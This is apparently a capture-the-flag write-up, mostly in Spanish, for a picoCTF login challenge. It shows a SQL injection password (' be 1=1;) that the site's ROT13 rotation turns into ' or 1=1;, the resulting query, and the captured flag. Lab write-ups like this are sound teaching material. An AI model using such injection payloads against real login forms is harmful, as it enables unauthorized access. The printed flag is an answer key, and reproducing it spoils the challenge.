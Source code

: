 # Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!
# Solución
```
password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'

# Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```
# Notas
- Al enviar la contraseña, el administrador rota 13 veces los caracteres, entonces, para poder acceder agregamos al cyberchef la cadena ==' or 1=1;==, lo rota 13 veces y el resultado es ==' be 1=1;==, al enviarlo como contraseña podemos acceder a la bandera.
# Referencia